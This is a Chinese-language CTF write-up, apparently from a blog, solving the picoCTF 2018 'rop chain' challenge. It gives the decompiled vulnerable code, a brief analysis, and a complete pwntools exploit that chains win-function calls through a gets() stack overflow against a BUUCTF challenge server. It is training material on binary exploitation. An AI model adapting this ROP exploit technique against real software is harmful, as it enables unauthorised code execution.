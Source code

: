 ```yaml
---
author: 
  name: Zephyr
title: picoctf 2018 rop chain
date: 2022-3-26 8:45:03
permalink: /pages/2e1547494524d19b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# picoctf 2018 rop chain

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/picoctf_2018_rop_chain/PicoCTF_2018_rop_chain'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // ST1C_4

  setvbuf(_bss_start, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  vuln();
  return 0;
}
```

vuln函数如下

```c
char *vuln()
{
  char s; // [esp+0h] [ebp-18h]

  printf("Enter your input> ");
  return gets(&s);
}
```

flag函数如下

```c
int flag(int a1)
{
  char s; // [esp+Ch] [ebp-3Ch]
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(&s, 48, stream);
  if ( win1 && win2 && a1 == -559039827 )
    return printf("%s", &s);
  if ( win1 && win2 )
    return puts("Incorrect Argument. Remember, you can call other functions in between each win function!");
  if ( win1 || win2 )
    return puts("Nice Try! You're Getting There!");
  return puts("You won't get the flag that easy..");
}
```

win_function1函数如下

```c
void win_function1()
{
  win1 = 1;
}
```

win_function2函数如下

```c
int __cdecl win_function2(int a1)
{
  int result; // eax

  result = (unsigned __int8)win1;
  if ( win1 && a1 == -1163220307 )
  {
    win2 = 1;
  }
  else if ( win1 )
  {
    result = puts("Wrong Argument. Try Again.");
  }
  else
  {
    result = puts("Nope. Try a little bit harder.");
  }
  return result;
}
```



## 思路分析

1. 目前信息：
   - `vuln`函数内明显的栈溢出
   - `win_function1`函数可修改`win1=1`
   - 参数为`-1163220307`时`win_function2`函数可修改`win2 =1`
   - `win1 =1`， `win2 =1`参数为`-559039827`时`flag`函数可获得`flag`
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 构造`rop`链完成`3`个参数赋值，返回到`flag`函数获得`flag`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/picoctf_2018_rop_chain/PicoCTF_2018_rop_chain'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27310)
elf = ELF(pwnfile)
padding = 0x18+4
win_function1_addr = elf.symbols['win_function1']
win_function2_addr = elf.symbols['win_function2']
flag_addr = elf.symbols['flag']
pop_ebx_ret = 0x0804840d
win_function1_parameter = -1163220307
win_function2_parameter = -559039827
payload = flat(['a'*padding, win_function1_addr, win_function2_addr, pop_ebx_ret,win_function1_parameter, flag_addr, 0xdeadbeef, win_function2_parameter])
io.recv()
io.sendline(payload)
io.interactive()
```